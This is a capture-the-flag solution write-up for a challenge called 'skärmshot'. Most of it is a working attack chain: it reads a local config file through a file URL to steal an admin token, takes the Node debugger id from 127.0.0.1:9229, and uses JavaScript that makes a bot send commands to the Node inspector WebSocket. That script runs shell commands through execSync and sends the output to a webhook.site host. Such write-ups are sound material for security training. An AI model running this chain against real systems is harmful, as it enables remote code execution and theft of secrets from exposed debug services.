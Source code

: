 # Solve for skärmshot

## Step 1
First we need to exfiltrate the admin_token. We can do this by sending the following URL:
```
view-source:file:///app/config.js
```

## Step 2
The next step is that we need to exfiltrate the node debug id. We can do this by sending the following URL:
```
http://127.0.0.1:9229/json/list
```

## Step 3
We can now execute arbitrary code by making the bot visit a page containing the following code:
```javascript
window.ws = new WebSocket('ws://127.0.0.1:9229/xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx')
ws.onerror = (e) => {
    fetch("https://webhook.site/REDACTED?e=" + btoa(e.toString()))
}
ws.onmessage = (e) => {
    fetch("https://webhook.site/REDACTED?e=" + btoa(e.data))
}
ws.onopen = () => {
    ws.send(JSON.stringify({
        id: 1,
        method: "Runtime.evaluate",
        params: {
            includeCommandLineAPI: true, 
            expression: `(function(){
                res = require("child_process").execSync("/app/readflag" ); 
                return new TextDecoder().decode(res);
            })();`
        }
    }))
}
```
Easy way run solve.py with all the values filled in.